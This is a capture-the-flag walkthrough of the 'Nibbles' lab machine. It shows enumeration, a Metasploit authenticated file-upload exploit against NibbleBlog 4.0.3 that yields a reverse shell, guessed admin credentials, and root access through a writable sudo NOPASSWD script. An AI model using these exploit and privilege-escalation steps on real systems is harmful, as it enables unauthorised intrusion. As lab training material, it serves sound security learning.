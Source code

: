 # Nibbles

## 1. Overview

### 1.1. Attacks

* Apache
* NibbleBlog

### 1.2. Tools used

**Enumeration** &rarr; `Nmap`, `Dirbuster`.

**Exploitation** &rarr; `Metasploit`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap

##### 2.1.1.1. Ports

![Nibbles Ports/Hosts](_v_images/20201023172349954_22885.png)

We can see it's running Ubuntu.

#### 2.1.2. Apache

Go to the website `10.10.10.75`. We can check the source code and see that it has a comment mentioning a `/nibbleblog/` directory. Let's see what `10.10.10.75/nibbleblog` shows.

![Nibbles Nibbleblog](_v_images/20201023173246139_30576.png)

We can try to use `searchsploit` to see if there's something to do with Nibble:

```sh
root@kali:~# searchsploit nibble
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                   | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)    | php/remote/38489.rb
--------------------------------------------------------- ---------------------------------
```

The Remote file Upload looks juicier (and more malign). We can probably exploit it with this.

### 2.2. Exploitation

#### 2.2.1. Sources

[Linux Privilege Escalation Scripts [NetSec]](https://netsec.ws/?p=309)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/multi/http/nibbleblog_file_upload
msf5 > info

...
Description:
  Nibbleblog contains a flaw that allows an authenticated remote 
  attacker to execute arbitrary PHP code. This module was tested on 
  version 4.0.3.
...
```
It allows an **authenticated** remote attacker, so there might be a login page somewhere. We also need to determine if the version running on the blog is `4.0.3` like the exploit requires.

We could search for the page by using common pages like `10.10.10.75/nibbleblog/admin.php` or use `dirbuster`:

![Nibbles Dirbuster](_v_images/20201023174116419_24986.png)

![Nibbles Dirbuster Result](_v_images/20201023174159425_29030.png)

We can see the `admin.php` does exist, and if we go to `10.10.10.75/nibbleblog/admin.php` there's a sign in page.

Since it's somebody's blog, there won't be any default credentials to use, so we could build a brute force attack. The credentials end up being:

* User: admin
* Password: nibbles

To use the exploit we found before, we need to know if this uses the version `4.0.3`. And it shows in the `settings` page that that's exactly the version it's running.

```sh
msf5 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf5 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf5 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.10.10.75
rhosts => 10.10.10.75
msf5 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog
targeturi => /nibbleblog
msf5 exploit(multi/http/nibbleblog_file_upload) > run
```

What this does is upload an `image.php` file in the `addons` section. This shouldn't be allowed, only `jpg`, `png`... So it uploads a `php` file and then calls it and it gives us a reverse shell.

```sh
meterpreter > sysinfo
Computer    : Nibbles
OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: nibbler (1001)
```

We are not a high-level user, so we'll need to probably get root (we have the version of Linux from this), or we can get into a shell and see if we can find something (there's the `user.txt` key on `/home/nibbler/user.txt`, available without root). In some cases we might be lucky by using the command `history` to see if the user ever writes down the credentials, but the command isn't found.

Let's see what we can execute without root password:

```sh
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We can run that `monitor.sh` file without a sudo password, but that file doesn't exist. That means we could create it and run it maliciously.

**Note:** some interesting scripts to run are `LinEnum.sh` and `linuxprivchecker.py`.

Let's go to the `/home/nibbler/personal/stuff/` directory. Now we can get an interactive shell by doing the following:

```sh
echo "bash -i" > monitor.sh
chmod +x monitor.sh

sudo /home/nibbler/personal/stuff/monitor.sh
```

And we got root!